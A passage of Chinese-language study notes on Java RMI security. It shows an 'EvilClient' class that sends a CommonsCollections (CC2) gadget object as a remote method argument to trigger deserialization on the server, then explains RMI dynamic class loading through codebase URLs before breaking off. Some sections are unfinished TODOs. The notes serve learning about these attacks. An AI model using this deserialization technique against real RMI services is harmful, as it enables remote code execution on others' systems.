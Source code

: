 和Register作为DGC服务端完全相同

#### Server接受Client远程调用参数的反序列化攻击（jdk8u241以后仍可用）

##### 示例代码

代码示例，攻击方式也很简单，client调用远程方法时传递恶意参数即可

```java
// 恶意客户端代码，CC2.getObject()返回恶意对象
import org.example.payload.CC2;
import org.example.remoteInterface.GetAnytypeParams;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilClient {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.getRegistry("192.168.110.146", 1099);

        GetAnytypeParams getAnytypeParams = (GetAnytypeParams) registry.lookup("getobjectServer");

        Object object = getAnytypeParams.getAnytypeParams(CC2.getObject());
    }
}

// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}
```

##### server的反序列化点（TODO）

##### client的序列化点（TODO）

### 动态加载类攻击

* **见java安全漫谈部分**

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的class文件可以使用http://、ftp://、file://进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，如果服务端方法的返回值可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些**子类**中被重写的方法，客户端就需要从服务端提供的`java.rmi.server.codebase`URL去加载类；对于服务端而言，如果客户端传递的方法参数是远程对象接口方法参数类型的**子类**，那么服务端需要从客户端提供的`java.rmi.server.codebase`URL去加载对应的类。客户端与服务端两边的`java.rmi.server.codebase`URL都是互相传递的。无论是客户端还是服务端要远程加载类，都需要满足以下条件：

